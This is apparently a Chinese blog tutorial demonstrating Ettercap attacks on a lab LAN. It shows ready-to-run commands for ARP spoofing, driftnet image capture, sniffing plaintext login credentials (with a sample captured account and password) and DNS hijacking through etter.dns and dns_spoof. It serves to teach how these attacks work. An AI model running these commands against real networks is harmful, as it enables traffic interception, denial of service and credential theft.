




关于 Ettercap 的有趣例子。

<!--more-->

## 安装与配置

安装很容易：

```shell
$ apt install ettercap-text-only
```

使用前需要修改配置，给予 Ettercap 足够的权限。配置文件位于 `/etc/ettercap/etter.conf`，找到：

```
[priv]
ec_uid = 65500
ec_gid = 65500
```

将两个值都修改为 0，表示给予 root 权限。

另外，如果想嗅探 https 包则需要根据配置文件的提示去除指定的注释。我这里使用的是 Linux 系统，防火墙为 iptables，所以我取消注释了 177 和 178 两行。

```
# if you use iptables:
   redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
   redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
```

## ARP 欺骗

我们知道，ARP 请求包是广播发送的，然而 ARP 应答包则是单播发送的。因此通过 Ettercap，我们可以在收到同一网段内的其它主机广播的 ARP 请求后，向它们发送 ARP 应答包，使它们认为我们的主机就是网关。这样一来，任何发送至外网的请求都将经过我们的主机。

如果我们成功实施了 ARP 欺骗，作为一个伪网关，就可以截获同网段内所有发送至外网的流量。我们可以选择不再将这些数据包转发至外网，这将使得该网段内所有其它主机无法上网：

```shell
$ arpspoof -i eth0 -t 192.168.159.128 192.168.159.2
```

其中 `-i` 指定网卡接口，`-t` 指定要欺骗的目标主机，最后的 IP 地址是本网段内真正的网关地址。如何查看真正的网关地址呢？

简便的方法是直接查看当前连接的网络属性，里面会直接显示 `默认网关` 字段。另一种方法是 `traceroute 任意外网网址 `，这样第一跳的地址必定是网关地址。

```shell
$ traceroute baidu.com
traceroute to baidu.com (123.125.114.144), 30 hops max, 60 byte packets
 1  _gateway (192.168.159.2)  0.947 ms  0.819 ms  0.681 ms^C
```

结果：





或者，我们照常转发流量（这个操作由 Ettercap 自动完成），但是将数据包中的图片存储下来：

```shell
$ ettercap -i eth0 -Tq -M arp:remote /// ///
$ driftnet -i eth0 -b -a -d pic
```

其中 `-T` 表示只使用命令行，`-q` 表示不显示具体数据包信息，`-M` 指定使用的模式，`///` 表示同网段下所有主机，`-b` 表示声音提醒，`-a` 保存图片，`-d` 指定保存目录。

由于 Ettercap 截获的是整个数据包，因此常常可以获取比图片更敏感的信息。举个例子，假设我们已经开始 ARP 欺骗：

```shell
$ ettercap -i eth0 -Tq -M arp:remote /// ///
```

这时，同网段主机访问了一个 http 网站并进行登录。我们可以在命令行看到：



由于帐号和密码是明文传输的，我们可以轻易得到帐号 `10175101282` 和密码 `aaaaaa`。

## DNS 劫持

作为伪网关，我们当然也可以将一些域名解析到指定的 IP，实现 DNS 劫持。首先修改另一个配置文件 `/etc/ettercap/etter.dns`，在这里面可以输入域名匹配规则与解析规则，如:

```
*.edu.cn           A   192.168.159.135
```

可以看出，前面是一个类正则的域名匹配规则，然后中间指定 `A Record`，最后指定要解析到哪个 IP 地址上，这里我们使用了攻击者主机内网 IP。

保存后，我们在本机开一个服务器：

```shell
$ service apache2 start
```

然后开始 DNS 劫持：

```shell
$ ettercap -i eth0 -Tq -P dns_spoof /// ///
```

当受害者主机访问类似 [aaa.ecnu.edu.cn](#) 的域名时，将会看到我们的 Apache 服务器的默认页面，这样就完成了 DNS 劫持。命令行提示：

```
dns_spoof: A [aaa.ecnu.edu.cn] spoofed to [192.168.159.135]
```

结果：



## 小结

显然上述攻击都有一个共同的前提，那就是攻击者和受害者处于同一网段。由此不难发现，局域网内的安全是十分脆弱的，这是由局域网内主机互相访问的便利性所带来的代价，而如何防护这类攻击是需要进一步思考的问题。
